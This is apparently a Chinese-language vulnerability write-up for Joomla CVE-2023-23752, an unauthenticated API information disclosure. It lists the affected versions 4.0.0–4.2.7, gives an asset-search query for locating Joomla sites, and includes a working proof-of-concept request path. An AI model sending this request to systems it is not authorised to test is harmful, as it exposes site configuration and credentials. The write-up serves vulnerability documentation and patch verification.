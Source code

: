 # Joomla application 未授权访问漏洞 CVE-2023-23752

# Joomla application 未授权访问漏洞 CVE-2023-23752

## 漏洞描述

Joomla 存在未授权访问漏洞，攻击者通过覆盖 public 值绕过限制，访问部分API获取敏感数据

## 漏洞影响

```
Joomla 4.0.0 - 4.2.7
```

## 网络测绘

```
app="Joomla"
```

## 漏洞复现

登陆页面

![image-20230313171122485](images/image-20230313171122485.png)

验证POC

```
/api/index.php/v1/config/application?public=true
```

![image-20230313171136037](images/image-20230313171136037.png)

